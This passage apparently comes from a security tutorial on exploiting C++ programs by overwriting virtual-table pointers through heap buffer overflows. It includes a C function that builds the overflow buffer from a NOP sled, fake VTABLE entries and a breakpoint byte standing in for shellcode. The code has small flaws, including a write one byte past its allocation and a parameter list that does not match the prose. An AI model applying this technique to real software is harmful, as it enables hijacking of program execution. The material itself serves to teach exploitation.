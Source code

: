The number of addresses to put in the beginning of our buffer (SSSS) depends
if we know or not the index in the VTABLE of the 1st method that will be
called after our overflow:
Either we knows this index, and then we writes the corresponding pointer.
Either we doesn't know this index, and we generate a maximum number of
pointers. Then, we hope the method that will be executed will use one of those
overwritten pointers. Notice that a class that contains 200 methods isn't very
usual ;)
The address to put in VVVV (our VPTR) depends principally of the execution of 
the program.
It is necessary to note here that our objects were allocated on the heap, and 
that it is difficult to know exactly their addresses.

We are going to write a small function that will construct us a buffer.
This function will receive 3 parameters:
- BufferAddress: the address of the beginning of the buffer that we will 
overflow.
- NAddress: the number of addresses that we want in our VTABLE.

Here is the code of our BufferOverflow() function:


char *BufferOverflow(unsigned long BufferAddress,int NAddress,int VPTROffset) {
 char *Buffer;
 unsigned long *LongBuffer;
 unsigned long CCOffset;
 int i;
 
 Buffer=(char*)malloc(VPTROffset+4);
  // allocates the buffer.

 CCOffset=(unsigned long)VPTROffset-1;
  // calculates the offset of the code to execute in the buffer.
  
 for (i=0;i<VPTROffset;i++) Buffer[i]='\x90';
  // fills the buffer with 90h (NOP, old habit:)))
  
 LongBuffer=(unsigned long*)Buffer;
  // constructs a pointer to place addresses in our VTABLE.
  
 for (i=0;i<NAddress;i++) LongBuffer[i]=BufferAddress+CCOffset;
  // fills our VTABLE at the beginning of the buffer with the address of the 
  // shellcode.
  
 LongBuffer=(unsigned long*)&Buffer[VPTROffset];
  // constructs a pointeur on VPTR.
  
 *LongBuffer=BufferAddress;
  // value that will overwrite VPTR.
  
 Buffer[CCOffset]='\xCC';
  // our executable code.

 Buffer[VPTROffset+4]='\x00';
  // finishes by a 00h char (end string).
 
 return Buffer; 
}
